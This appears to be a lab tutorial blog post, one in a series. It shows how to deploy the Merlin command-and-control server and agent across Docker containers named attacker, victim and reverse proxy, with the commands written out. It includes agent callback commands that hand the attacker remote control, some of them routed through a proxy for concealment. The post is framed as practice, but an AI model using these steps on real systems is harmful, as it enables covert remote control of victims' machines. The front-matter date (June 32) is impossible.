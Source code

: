 ```yaml
---
title: Now why are we here?
description: Draft
date: 2021-06-32
scheduled: 2021-06-32
layout: layouts/post.njk
tags:
    - posts
---
```


We have our Attacker server ready,
we have our Reverse-Proxy ready,
and we have encrypted HTTPS communication.

### It's time for our RAT.
A RAT is a Remote Access Tool. They can be used in a number of positive ways like Windows Remote Control or SSH sessions.
Our RAT is going to be malicious though. We're going to control our Victim's system from our Attacker and by using a Reverse-Proxy
and SSL we'll be masked and hidden, impossible to trace. Well, not really. But it won't be easy!

First let's get our tools.
Download wget and 7zip:

``` bash 
apt install wget
apt-get install p7zip-full
```
Next let's get ![Merlin](https://github.com/Ne0nd0g/merlin).
Merlin is a cross-platform post-exploitation Command & Control server and agent written in Go.
We'll create a directory for it and unpack it using 7zip, as per instructions on the ![official site](https://merlin-c2.readthedocs.io/en/latest/quickStart/server.html).

``` bash
mkdir /opt/merlin;cd /opt/merlin
wget https://github.com/Ne0nd0g/merlin/releases/latest/download/merlinServer-Linux-x64.7z
7z x merlinServer-Linux-x64.7z
./merlinServer-Linux-x64
```

![Merlin](/img/remote/merlin.png)

Let's close it for now though, you can do that with `exit` command.

Merlin consists of the server part, which we just saw, and an agent. An agent will sit in our victim, waiting for the server's instructions and executing them. We already have three precompiled agents for each of the big platforms, Windows, Linux and MacOS.
Navigate into `/opt/merlin/data/bin/linux` and you'll find `merlinAgent-Linux-x64`.

Merlin is a post-exploitation framework, meaning it isn't within the scope of the program to get the agent onto our victim. There are plenty ways for that which I won't try to cover. Let's just copy and paste it into our victim.
First, find the Attacker's and Victim's docker container ID's.

``` bash
docker ps 
```
Now we'll copy the agent from our attacker to our desktop and then from our desktop to our victim.

``` bash
docker cp 75566028d8fb:/opt/merlin/data/bin/linux/merlinAgent-Linux-x64 ~/Desktop/merlinAgent-Linux-x64
docker cp ~/Desktop/merlinAgent-Linux-x64 b9d55696b755:/merlinAgent-Linux-x64
```

Now, we're ready! Let's just check out how Merlin server and Agent work together.
Inside attacker start up Merlin. It's worth mentioning that Merlin has tab completion so if you're unsure about the availeable commands just hit TAB and it'll show you.
Let's use HTTP2.

``` bash
listeners
use http2
options
```

We'll see the defaults now. We'll need to change some of them.
![Merlin options](/img/remote/merlin-options1.png)

Let's use the IP of our container and the port 5555 we've specified earlier and start up our listener.

``` bash
set Interface 172.17.0.3
set Port 5555
start
```

Now we have to connect to our listener with our agent.
Go to victim, navigate to where the agent is, and enter the following:

``` bash
./merlinAgent-Linux-x64 -v -url https://172.17.0.3:5555 -psk 'merlin'
```
With the verbose `-v` flag you should see everything the agent is doing, and on the other side, in our Merlin server, you should see the connection.
Now you have a full control over victim from attacker.
Try our a simple `ls` to get a list of files.

![Merlin ls](/img/remote/merlin-ls.png)

Feels good!

Now let's route the commands through our reverse proxy.
Close the agent with a CTRL + C and enter the following:

``` bash
./merlinAgent-Linux-x64 -v -url https://172.17.0.4/merlin -psk 'merlin'
```

This time we're using the IP of our reverse-proxy, and it still connects!
We'll be using those two scenarios, with and without the reverse-proxy, in the next post.